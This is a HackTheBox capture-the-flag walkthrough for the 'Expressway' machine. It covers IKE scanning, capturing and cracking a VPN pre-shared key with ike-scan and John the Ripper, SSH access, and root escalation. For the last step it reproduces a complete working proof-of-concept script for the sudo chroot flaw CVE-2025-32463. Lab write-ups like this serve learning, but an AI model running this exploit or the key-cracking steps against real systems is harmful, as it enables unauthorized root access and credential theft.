










# Expressway CTF - HackTheBox Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Expressway** CTF challenge on [HackTheBox](https://app.hackthebox.com/machines/Expressway). 
---

first scanning with rustscan we only found open port 22 ssh



nmap UDP scan showed open port 500


 

now we can try to get more info about service on port 500, hacktricks suggests to use `ike-scan` tool


```
$ sudo ike-scan $IP
```



now we know more about the service, especially that it uses PSK

we can also perform more agressive scan using


```
$ sudo ike-scan -A $IP
```



now we know the ID value: `ike@expressway.htb`

we can try to get a PSK with command, it will save it to `presharedkey.txt`

```
$ sudo ike-scan -A --id=ike@expressway.htb -Ppresharedkey.txt $IP
```





next we convert it to john format for cracking

```
$ python3 /opt/john-jumbo/run/ikescan2john.py presharedkey.txt > psk.txt
```

next running john to brute-force the key

```
$ sudo /opt/john-jumbo/run/john psk.txt --wordlist=/usr/share/seclists/Passwords/rockyou.txt 
```



we found some value

now we can try to login into SSH



we have user flag

checking sudo version with linpeas we found some old vulnerable version 1.9.17 with `CVE-2025-32463 – chroot`



we can create simple file root.sh with this code, and then run it to get root shell

```
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
```

now we have root access and we can can grab root flag



# MACHINE PWNED
